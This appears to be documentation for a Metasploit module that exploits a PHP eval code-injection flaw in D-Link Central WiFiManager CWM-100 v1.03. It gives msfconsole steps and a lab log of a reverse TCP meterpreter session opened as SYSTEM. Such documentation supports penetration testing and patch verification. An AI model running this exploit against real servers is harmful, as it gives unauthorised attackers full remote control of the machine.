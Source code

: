 ## Vulnerable Application

### Introduction

This module exploits a PHP code injection vulnerability in D-Link Central WiFiManager CWM‑100,
the vulnerability exists because a user-controlled cookie is passed to the eval function without being
sanitized.

Because the HTTP server runs in the context of a privilegied user (with a default installation),
successful exploitation results in code execution as nt_authority\system.

a vulnerable version is available at DLink's vulnerability announcement:
- [The announcement](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10117)
- [ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip](ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip)

## Verification Steps

1. Start `msfconsole`
2. Do: `use windows/http/dlink_central_wifimanager_rce`
3. Do: `set RHOSTS [RHOSTS]`
4. Check the payload options: `show options`
5. Do: `exploit`
6. Verify that you get a shell / meterpreter / that whatever payload you used was executed

## Options

No additional options

## Scenarios

### CWM-100 v1.03

#### Getting a meterpreter session

```
msf5 exploit(windows/http/dlink_central_wifimanager_rce) > 
msf5 exploit(windows/http/dlink_central_wifimanager_rce) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (38288 bytes) to 192.168.1.223
[*] Meterpreter session 1 opened (192.168.1.222:4444 -> 192.168.1.223:1783) at 2020-08-13 14:51:09 +0200

meterpreter > sysinfo
Computer    : REVM-PC
OS          : Windows NT REVM-PC 6.1 build 7601 (Windows 7 Professional N Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter > getuid 
Server username: SYSTEM (0)
meterpreter > pwd
C:\Program Files (x86)\D-Link\Central WifiManager\web
meterpreter > ls
Listing: C:\Program Files (x86)\D-Link\Central WifiManager\web
==============================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100666/rw-rw-rw-  177     fil   2014-09-16 16:19:18 +0200  .htaccess
100666/rw-rw-rw-  138884  fil   2016-01-28 13:36:32 +0100  AP_Installation_utility_for_cwm.zip
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:25 +0200  CapLoginStyle
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  Common
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Conf
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  DBBackup
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:44 +0200  Lang
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Lib
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Public
100666/rw-rw-rw-  256     fil   2014-09-16 16:19:18 +0200  README.txt
40777/rwxrwxrwx   0       dir   2020-08-13 13:02:13 +0200  Runtime
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:27 +0200  ThinkPHP
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Tpl
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:38 +0200  captivalportal
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:36 +0200  ckeditor
100666/rw-rw-rw-  15086   fil   2014-09-16 16:19:18 +0200  favicon.ico
100666/rw-rw-rw-  158     fil   2014-09-16 16:19:18 +0200  index.php
100666/rw-rw-rw-  122     fil   2015-10-29 14:17:48 +0100  redrect.php
100666/rw-rw-rw-  211     fil   2014-09-16 16:19:18 +0200  robots.txt
```
